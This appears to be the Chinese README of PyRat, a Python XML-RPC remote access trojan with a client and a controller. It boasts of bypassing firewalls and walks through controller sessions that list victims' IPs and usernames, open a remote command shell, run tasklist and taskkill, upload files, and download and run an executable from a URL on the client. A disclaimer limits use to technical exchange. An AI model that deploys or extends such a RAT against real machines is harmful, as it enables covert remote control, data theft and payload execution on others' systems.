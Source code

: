 # PyRat

PyRat，基于python XmlRPC完成的远控开源项目，包括客户端和服务端（也叫控制端，后统称服务端）。
原地址：https://github.com/anhkgg/PyRat


> 申明：项目仅供技术交流，请勿用于商业及非法用途，如产生任何法律纠纷均与本人无关!

1. 由于XmlRPC基于http协议，所以PyRat能够无视防火墙，更加优雅得进行通信和控制。
2. python的跨平台特性，使得PyRat客户端可以支持Windows/Linux/Macos等不同平台，目前测试通过支持**Windows/Ubuntu/Macos**平台。
3. 服务端命令行控制和管理，逼格满满。
4. 目前客户端支持基本信息、上传、下载、cmdshell、运行软件、结束进程、更新、卸载等功能

# 依赖

1. python2.7
2. colorama (服务端)

# TODO

1. 增加更多功能，比如文件操作，批量断点文件传输，远程桌面，截屏，账户操作等等
2. 服务端可视化
3. 交互是shell
4. 欢迎PR

# 基本使用

客户端

```
> python .\pyratcli.py localhost 80
```

服务端

```
> python pyratsvr.py 80
--------------------Python RAT-----------------------
--------------------anhkgg---------------------------
--------------------Copyright (c) 2018---------------

软件仅供技术交流，请勿用于商业及非法用途，如产生法律纠纷与本人无关!

--------------------Task command---------------------
--|(l)ist (a)live (k)ill (s)elect (p)rint (c)mdshell (n)ew (d)ownload (r)unexec (u)pload (t)erminate (q)uit (h)elp|--

cmd >
```

客户端上线后，服务端会提示，并且将最新上线客户端设置未默认操作目标。

```
cmd >test-3333333 is online.
Auto set target test-3333333
```

`help`或者`h`可列出服务端支持的所有命令。

```
cmd >help
(l)ist:     list all clients
(a)live:    list alive clients
(k)ill:     delete client
(s)elect:   select target client
(p)rint:    show current client
(c)mdshell: create a cmdshell, type q to exit cmdshell
(n)ew:      update client version
(d)ownload: let client download a file
(r)unexec:  let client run a exe
(u)pload:   upload a file to client
(t)erminate:terminate process
(q)uit:     quit server
```

# 客户端管理

服务端使用sqlite保存客户端基础信息以及任务信息，通过命令可以对客户端进行管理。

```
//枚举所有客户端
cmd >l
test-3333333 offline 2018-03-20 22:46:59!
id     | client_id                  | version  | localip              | remoteip             | username             | osversion  | firsttime            | lasttime             | status
10     | test-3333333     | 0.1.0    | 192.168.149.1        | 114.245.47.12        | test            | Windows10.0.16299 | 2018-03-17 12:39:56  | 2018-03-20 22:46:59  | 0
cmd >
//枚举在线客户端
cmd >a
no alive client
//删除客户端数据库记录或者卸载客户端
cmd >k
target cid(or ALL):test-3333333
Do you want to uninstall client?(Y/N)
```

如果需要控制客户端时，需要通过`select`或者`s`选择要操作的客户目标。

```
cmd >c //想进入cmdshell，提示无目标
Please first set target client by (s)elect command.
cmd >s //设置目标
client_id:test-3333333
Set target client: test-3333333
//查看当前目标
cmd >p
test-3333333
```

# cmdshell

通过`cmdshell`或`c`进入cmdshell，除非主动输入`q`，否则一直在cmdshell操作目录。

cmdshell记录操作目录，比如cd c:\，下次操作会在该目录下进行，实现了类似管道连接的cmdshell。

另外若通过cmdshell启动进程，某些进程可能会阻塞消息返回，所以不推荐使用，而是使用`runexec`来代替。

```
cmd >c
RAT-CMD > dir
RAT-CMD > test-3333333 do cmdshell(195) dir True
 驱动器 D 中的卷是 gitrepo
 卷的序列号是 EB2F-5AC0

 D:\PyRat\client 的目录

2018/02/24  09:40    <DIR>          .
2018/02/24  09:40    <DIR>          ..
2018/03/20  22:46             4,919 pyratcli.py
2018/03/20  23:01                28 cmd.log
2018/03/17  12:39             1,322 pyratfc.py
2018/03/17  11:19             2,500 osver.py
2018/03/17  12:39             2,161 pyratfc.pyc
               5 个文件         10,930 字节
               2 个目录 647,836,565,504 可用字节

RAT-CMD > ver
RAT-CMD > test-3333333 do cmdshell(196) ver True

Microsoft Windows [版本 10.0.16299.309]

RAT-CMD > tasklist
RAT-CMD > test-3333333 do cmdshell(197) tasklist True

映像名称                       PID 会话名              会话#       内存使用
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          8 K
System                           4 Services                   0      3,564 K
smss.exe                       360 Services                   0        412 K
csrss.exe                      492 Services                   0      1,700 K
Calculator.exe               21656 RDP-Tcp#85                 1     56,772 K
RAT-CMD > tasklist |findstr Cal
RAT-CMD > test-3333333 do cmdshell(200) tasklist |findstr Cal True
Calculator.exe               21656 RDP-Tcp#85                 1     51,856 K
RAT-CMD > taskkill /IM Calculator.exe
RAT-CMD > test-3333333 do cmdshell(201) taskkill /IM Calculator.exe True
成功: 给进程 "Calculator.exe" 发送了终止信号，进程的 PID 为 21656。
RAT-CMD > taskkill /PID 21656
RAT-CMD > test-3333333 do cmdshell(202) taskkill /PID 21656 True
成功: 给进程发送了终止信号，进程的 PID 为 21656。
```

# 文件操作

支持文件上传和下载，其中下载支持下载网络文件和服务端本地文件，暂时只支持单文件上传和下载。

```
cmd >d
url(type N to download local file):N //选择下载本地文件
local file:db.db
dest path:db.db
cmd >test-3333333 do download(203) local db.db db.db True
download success

cmd >d
url(type N to download local file):https://dl.360safe.com/360/inst.exe //下载网络文件
dest path:inst.exe
cmd >test-3333333 do download(204) net https://dl.360safe.com/360/inst.exe inst.exe True
download success
```

# 运行软件

```
cmd >r
run target:inst.exe
runexec inst.exe
```

# 结束进程

```
cmd > t
Select type(name/pid):name
process name:notepad.exe
cmd >test-3333333 do terminate(212) name notepad.exe True
成功: 给进程 "notepad.exe" 发送了终止信号，进程的 PID 为 25416。
```

# 问题

1. 测试中发现可能有编码问题

如果客户端运行在linux，而服务端在windows平台，中文可能出现乱码，因为两个平台使用编码不同，暂时未作处理
